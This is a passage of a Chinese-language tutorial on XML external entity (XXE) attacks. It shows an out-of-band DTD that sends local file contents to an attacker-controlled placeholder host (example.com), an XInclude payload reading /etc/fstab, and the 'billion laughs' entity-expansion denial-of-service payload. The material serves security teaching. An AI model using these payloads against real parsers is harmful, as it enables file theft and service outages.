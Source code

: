 然后在我们可控的http://example.com/

放置如下DTD

```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % all "<!ENTITY send SYSTEM 'http://example.com/?%file;'>"> %all;

```

流程如下

![RHM](http://drops.javaweb.org/uploads/images/e3277ded0314840e1b87fc4ff533e70f95241afd.jpg)

XXE的奇门遁甲
--------

### 基于XInclude的文件包含

XInclude提供了一种较为方便的取回数据的思路（再也不用担心数据不完整而导致parser抛出一个错误）而我们能够通过parse属性，强制引用文件的类型。

```
<root xmlns:xi="http://www.w3.org/2001/XInclude">
 <xi:include href="file:///etc/fstab" parse="text"/>
</root>

```

不过Xinclude需要手动开启，测试发现所有xml parser都默认关闭这一特性。

### 拒绝服务

XXE攻击也能用来发起拒绝服务攻击

如下的递归引用，从下至上以指数形式增多

```
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>

```

回忆一下解析过程，当XML处理器载入这个文档的时候，它会包含根元素，而里面定义了实体&lol9 ，而19实体扩展成了包含了`“&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;”`这个字符串。

如此递归上去，压入内存的东西呈指数增长，实验发现，一个小于1KB的XML攻击payload能消耗3GB的内存。
